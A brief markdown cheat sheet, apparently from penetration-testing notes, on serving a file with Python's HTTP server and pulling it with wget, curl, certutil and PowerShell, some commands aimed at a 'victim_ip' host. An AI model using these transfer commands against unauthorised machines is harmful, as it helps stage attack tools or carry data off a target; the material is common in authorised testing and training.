 #### Start a HTTP Server
Start a Python HTTP server:
```
python -m http.server 8080
```


### Pull the File
**Linux**
```
wget http://victim_ip:8080/file.txt
```

```
curl -O http://victim_ip:8080/file.txt
```


**Windows**
In-built tool `certutil`:
```
certutil -urlcache -split -f http://ip:8080/file.txt file.txt
```

curl
```
curl http://victim_ip:8080/file.txt -o file.txt
```

PowerShell
```
Invoke-WebRequest -Uri "http://example.com/file.txt" -OutFile "C:\path\to\save\file.txt"
```

If running from `cmd.exe`, a `batch` file, or a `script` that needs to launch PowerShell
```
powershell -c 'Invoke-WebRequest -Uri "http://example.com/file.txt" -OutFile "C:\path\to\save\file.txt"'
```